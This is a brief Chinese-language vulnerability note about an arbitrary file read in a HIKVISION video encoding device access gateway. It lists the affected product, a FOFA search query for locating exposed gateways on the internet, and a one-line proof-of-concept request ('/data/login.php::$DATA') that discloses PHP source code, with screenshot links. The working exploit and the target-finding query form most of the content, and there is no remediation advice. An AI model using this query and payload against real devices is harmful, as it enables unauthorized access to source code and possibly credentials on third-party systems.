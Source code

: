 # HIKVISION 视频编码设备接入网关 $DATA 任意文件读取

## 漏洞描述

HIKVISION 视频编码设备接入网关存在配置错误特性，特殊后缀请求php文件可读取源码

## 漏洞影响

```
HIKVISION 视频编码设备接入网关
```

## FOFA

```
title="视频编码设备接入网关"
```

## 漏洞复现

登陆页面

![image-20220519174129368](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191741462.png)

POC

```
/data/login.php::$DATA
```

![image-20220519174235421](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191742487.png)